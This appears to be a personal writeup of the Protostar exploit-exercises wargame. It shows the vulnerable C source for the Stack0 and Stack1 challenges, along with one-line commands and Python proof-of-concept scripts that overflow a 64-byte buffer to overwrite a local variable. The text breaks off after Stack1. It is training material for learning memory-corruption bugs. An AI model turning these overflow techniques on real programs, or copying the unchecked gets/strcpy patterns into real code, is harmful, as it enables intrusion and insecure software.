 ```yaml
---
layout: project_single
title:  "Protostar"
slug: "protostar"
---
```

protostar writeups

# protostar
protostar sploits and solutions 
https://exploit-exercises.com/protostar

NOTE: write ups in progress. Adding python exploit poc's to each excercise for practice!

##INDEX

| Challenge                        |
| :------------------------------- | 
| [Stack0](#stack0) | 
|[Stack1](#stack1)|
|[Stack2](#stack2)|
|[Stack3](#stack3)|
|[Stack4](#stack4)|
|[Stack5](#stack5)|
|[Stack6](#stack6)|
|[Stack7](#stack7)|
|[Format0](#format0)|
|[Format1](#format1)|
|[Format2](#format2)|
|[heap0](#heap0)|
|[heap1](#heap1)|
|[net0](#net0)|
|[net1](#net1)|
|[net2](#net2)|


#Stack0
---------------------------------------
###Source Code:

```C
int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  modified = 0;
  gets(buffer);

  if(modified != 0) {
      printf("you have changed the 'modified' variable\n");
  } else {
      printf("Try again?\n");
  }
}
```

###Stack:

| eip | ebp | modified(0) |   buffer    |

###The plan:
fill buffer with gets 
since buffer = 64 bytes, an input of 65 bytes should overflow and overwrite modified

###winning command:

```bash
python -c "print 'a'*64+'1'" | ./stack0
```

###Python exploit:

```Python
from subprocess import Popen, PIPE
################
buffer = 64 
fill = "A"*buffer  
input=fill+"1"      
#################
cproc = Popen("./stack0", stdin=PIPE, stdout=PIPE)
print cproc.communicate(input)[0]   
```

#Stack1
---------------------------------------
###Source Code:

```C
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  if(argc == 1) {
      errx(1, "please specify an argument\n");
  }

  modified = 0;
  strcpy(buffer, argv[1]);

  if(modified == 0x61626364) {
      printf("you have correctly got the variable to the right value\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }
}
```

###Stack:
| eip | ebp | modified(0) |   buffer    |

###Plan:
This challenge is similar to the last one with a few differences.  It takes command line args instead of gets, and instead of setting modified to 1, we need to set it to 0x61626364 ("abcd" in ascii). Like the previous challenge, we just fill up buffer and overflow the correct value into modified. Since it's little endian, we need to craft our input so that the value sits in memory correctly. 

###winning command:

```bash
./stack1 $(python -c "print 'a'*64+'dcba'")
```

###Python exploit:

```Python
from subprocess import Popen, PIPE
################
buffer = 64
fill = "A"*buffer
input=fill+'\x64\x63\x62\x61'
#################
cproc = Popen(["./stack1",input], stdin=PIPE, stdout=PIPE)
print cproc.communicate()[0]